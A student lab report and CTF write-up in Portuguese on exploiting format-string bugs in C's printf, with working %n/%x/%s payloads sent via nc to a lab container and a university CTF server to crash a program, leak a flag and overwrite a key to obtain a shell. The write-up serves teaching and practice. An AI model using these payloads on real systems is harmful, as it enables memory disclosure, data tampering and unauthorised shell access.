    # Lab Semana 7

No lab desta semana é explorada a vulnerabilidade de *format strings*　presente na função `printf()` da linguagem C.

## Tarefa 1

A primeir tarefa é relativamente simples, tratando-se simplesmente de *crashar* o programa.

Simplesmente usando o seguinte comando facilmente conseguimos atingir o objetivo:

```bash
echo "%n" | nc 10.9.0.5 9090
```


Isto acontece devido ao facto que a sequência `%n` instrui ao programa a escrever o número de *bytes* lidos até então no endereço encontrado no topo da *stack*, que quase certamente se tratará de um endereço inválido, causando um `SEGFAULT`.

Visto que não obtivemos mensagem do servidor a indicar qe a mensagem foi retornada "properly", podemos concluir que o servidor *crashou*.

## Tarefa 2

### 2.A

Nesta seguinte subtarefa, pretendemos imprimir todos os dados presentes na *stack* até encontrarmos o nosso *input* presente no *buffer*.

Posto isto, construímos uma mensagem para enviar ao *docker container* constituída por carateres repetidos para fácil identificação, seguinda de seguências `0x%08X`separados por pontos para imprimir 4 *bytes* de cada vez:




No *output* conseguimos ver a sequência `0x46464646`, sendo que 46 em hexadecimal corresponde ao código `ASCII` para a letra `F`, indicando que precisamos de 64 especificadores `%x` para imprimir os primeiros 4 *bytes* do nosso *input*.

### 2.B

Subsequentemente, é nos instruído que consigamos imprimir a mensagem secreta que se encontra no endereço ditado pelo servidor (neste caso, `0x080b4008`).

Para tal efeito, utilizamos o seguinte comando:

```bash
python3 -c "print('\x08\x40\x0b\x08' + '0%08X'*63 + '\n%s')" | nc 10.9.0.5 9090
```

Este comando passa o endereço na sua forma binária para o servidor, juntamente com 63 sequências de formatação `%x`, o que faz que a seguinte sequência `%s` olhe para os primeiros 4 *bytes* do nosso *input*, que no nosso caso é o endereço da mensagem secreta, e imprima a *string* lá presente.



## Tarefa 3

### 3.A

Na presente tarefa teremos de alterar o valor da variável presente no endereço indicado no servidor.
De tal modo, voltaremos a utilizar a sequência `%n`, que nos permitirá escrever para a *stack*.

Semelhante ao que foi feito anteriormente, utilizaremos o seguinte código:

```bash
python3 -c "print('\x68\x50\x0e\x08' + '0x%08X'*63 + '\n%n')" | nc 10.9.0.5 9090
```



Como podemos ver no *output*, o valor da variável foi alterado para `0x27b`, que corresponde ao número de *bytes* lidos até à sequência `%n`.

### 3.B

Desta vez, teremos de alterar o valor da variável para um valor arbitrário: `0x5000`.
No entanto, o servidor apenas lê 1500 carateres para o *buffer*, sendo esse o seu exato tamanho, o que é um número muito inferior ao necessário para atingir o valor desejado implementando a presente estratégia.
Desse modo, usaremos outra funcionalidade das *format strings*: os *length specifiers*.
Se o servidor encontrar a sequência `%1000x`, isso acabará por fazer com que 4000 `bytes` sejam lidos, embora só usemos `6 bytes` do `buffer`.
Munidos com esta informação, reestruturamos a *payload*:

```bash
python3 -c "print('\x68\x50\x0e\x08' + '0x%08X'*62 + '%019855x\n%n')" | nc 10.9.0.5 9090
```

Se olharmos para a tarefa anterior, veremos que `0x27b` corresponde ao número *bytes* lidos ao processar `'\x68\x50\x0e\x08' + '0x%08X'*63' + '\n'`. No entanto, uma vez que precisamos de utilizar o *length specifier*, só imprimiremos a sequência `0x%08X` 62 vezes.
Logo ao calcular `0x5000 - 0x27b + 10`, sendo 10 os `bytes` não escritos ao utilizar 62 em vez de 63 sequências, obtemos o número utilizado na *payload*: 19855.
E como podemos ver, atingimos, de facto, o valor pretendido:

 

# CTF

# Desafio 1

Seguindo o guião que nos foi fornecido, analisámos o código-fonte do programa a correr em nc `ctf-fsi.fe.up.pt 4004` com a ferramenta `checksec`.



Como podemos ver, o programa tem um *stack canary*, o que tornará difícil usar um *exploit* de *buffer overflow*. Para além disso, tem o *bit* NX ativado, o que proíbe a execução de código arbitrário numa região de memória vulnerável, impossibilitando o acesso a uma *shell*.
É importante notar que este programa não é *PIE*, ou seja os seus endereços são estáticos, o que facilitará a conceção de um *exploit*, especialmente quando temos acesso ao código-fonte.

Seguidamente, analizaremos o código-fonte do programa presente em `main.c`:

```c
#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}
```

O que imediatamente salta à vista é a linha onde a função `printf()` é chamda.
Não havendo sanitização de *input*, sendo este passado diretamente para a função, está vulnerável a um ataque de *format strings*.
De facto, sendo a *flag* escrita para um *buffer* na *stack* anteriormente ao *buffer* onde é recebido o *input* do utilizador, é com certeza o ataque mais eficaz nesta situação.

Seguindo o conselho do guião, utilizamos o *gdb* para descobrir o endereço do *buffer* que conteria a *flag*:



Este será o endereço colocado no início do nosso *input* para posteriormente ser lido quando a *stack* for esgotada.
Faltará apenas encontrar o número de *bytes* que serão necessários remover da *stack* para chegar ao início do nosso *input*.
Por acaso, o *stack pointer* aponta logo para o nosso input, logo bastará enviar o endereço seguido de uma sequência `%s` para obter a *flag*.

Decidimos escrever primeiro para um ficheiro para posteriormente enviar para o servidor.

```python
with open('badfile', 'wb') as fl:
    fl.write(0x804c060.to_bytes(4, byteorder='little'))
    fl.write(b'%s\n')
```



## Desafio 2

Neste segundo desafio, começaremos também por correr `checksec` no programa fornecido.



Em princípio, devido à similaridade dos *outputs* entre desafios, o ataque adequado será semelhante; as conclusões são as mesmas.

De seguida, olhando ao código-fonte:

```c
#include <stdio.h>
#include <stdlib.h>

char pad[2] = "\x00\x00";
int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else {
    	printf("\n\n\nWrong key: %d\n", key);
	fflush(stdout);
    }
        
    return 0;
}
```
A notar:

1. Não existe variável global que contenha a *flag*.
2. Existe uma *backdoor* que dá acesso a uma *shell* que possivelmente permitirá ganhar acesso à flag.
3. Tal como desafio anterior, existe uma vulnerabilidade de *format strings*.

Intuitamente, teremos de sobrescrever o valor de *key* para corresponder ao indicado de modo a sucesseder no *if-else branch* e nos dar acesso à *shell*.

Como os endereços são estáticos tal como no desafio anterior, procederemos a obter o endereço da variável `key` de modo semelhante:



Munidos desta informação, utilizaremos a sequência `%n` para escrever o valor pretendido para `key`.

```python
with open('badfile', 'wb') as fl:
    fl.write(b'AAAA')
    fl.write(0x804b324.to_bytes(4, byteorder='little'))
    fl.write(b'%48871x')
    fl.write(b'%n\n')
```
Neste pequeno script, utilizamos duas *format strings*, pelo que é necessário ter um valor de *padding* de modo a que o endereço da variavel esteja no topo da *stack* quando a função ler `%n`.

Quanto ao valor do *length specifier*, apenas foi efetuada a conversão do valor da *key* pretendida para decimal, ao qual foi subtraído o número de *bytes* aquém da sequência.

Finalmente, semelhante ao que foi feito anteriormente:

```bash
(cat badfile ; cat) | nc ctf-fsi.fe.up.pt 4005
```



**Nota:** Foi necessário o comando `cat` adicional uma vez que ao acabar de enviar o *badfile*, é enviado `EOF` que fecha `stdin`. Ao ser criada a *shell*, se `stdin` não estiver aberto, esta sai imediatamente. No entanto, se `cat` for corrido novamente sem argumentos, este cria um novo processo em que apenas envia o que recebe de `stdin` para `stdout`, e uma vez que o *pipe* presente no comando recebe o *output* de `stdout` do comando à esquerda e envia-o para o `stdin` do comando à direita, certifica-se que quando a *shell* é criada existe `stdin` de onde possa ser lido.